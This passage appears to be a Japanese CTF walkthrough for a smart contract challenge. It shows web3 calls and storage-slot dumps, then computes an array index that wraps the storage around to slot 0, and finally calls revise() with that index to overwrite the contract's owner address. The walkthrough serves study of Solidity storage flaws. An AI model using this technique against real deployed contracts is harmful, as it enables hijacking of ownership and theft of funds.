 ```js
web3.eth.sendTransaction(
  { to: contract.address, data: rowdata, from: player, gas: 1000000 },
  function (error, result) {
    console.log(result);
  },
);
```

これで contact は true になる。

2.  スロットがオーバーフローするのを狙う
    web3.eth.getStorageAt でストレージをみてみると

```

0) 0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
1) 0x0000000000000000000000000000000000000000000000000000000000000000
2) 0x0000000000000000000000000000000000000000000000000000000000000000
3) 0x0000000000000000000000000000000000000000000000000000000000000000
```

|     slot     |            bytes             |
| :----------: | :--------------------------: |
|      0       |     bool + owner address     |
|      1       |         Array.length         |
|  keccak(1)   |           codex[1]           |
| keccak(1)+1  |           codex[2]           |
|              |                              |
|   2^256-1    |   codex[2^256-1-keccak(1)]   |
| 0(over flow) | codex[2^256-1-keccak(1)＋ 1] |

動的な型（array など）はメモリの衝突が起きないように keccak(1)を最初の動的な型のメモリ開始地点としている。
スロットは 2^256 個あるが溢れるとオーバーフローを起こし、0 スロットに戻ってくるため owner address を変更することができる。

`2^256-1-keccak(1)+1 = 35707666377435648211887908874984608119992236509074197713628505308453184860938`

トランザクションを作成して実行

```
// revise(index, value)
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x000000000000000000000001eD9C9c93b75b8222934A4772A5A9eb55A8Cbf03E',{from:player, gas:1000000})
```

<img
width="890"
alt="スクリーンショット 2020-08-05 0.20.51.png"
src="https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/382669/b0485d4c-8aae-7dbd-a134-2f477a504dc0.png"
